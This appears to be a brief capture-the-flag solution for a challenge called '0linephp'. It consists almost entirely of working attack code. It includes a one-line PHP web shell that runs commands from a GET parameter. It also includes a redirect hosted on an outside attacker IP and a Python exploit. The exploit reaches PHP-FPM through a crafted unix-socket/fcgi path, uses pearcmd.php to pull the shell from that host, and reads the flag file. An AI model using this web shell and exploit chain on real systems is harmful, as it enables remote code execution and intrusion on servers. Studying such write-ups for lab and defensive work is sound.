 # 0linephp

## Web shell

Host an simple web server that will redirect `/` to `shell.php`

index.php
```php
<?php
  header('Location: http://1.3.3.7/shell.php');
?>
```

shell.php
```php
<?='<?=system($_GET["c"]);?>'?>
```

## Exploit
```python
from urllib.request import urlopen

# challenge's host
host = 'http://target'

pearcmd = "/usr/local/lib/php/pearcmd.php?argv=+install+--installroot+/+http://1.3.3.7/" # your ip
payload = f"/index.php/unix:{'A'*5000}|fcgi://php:9000{pearcmd}"
urlopen(f"{host}{payload}")

shell = f"/tmp/pear/download/shell.php?c=cat+/flag"
payload = f"/index.php/unix:{'A'*5000}|fcgi://php:9000{shell}"
r = urlopen(f"{host}{payload}")
print(r.read())
```

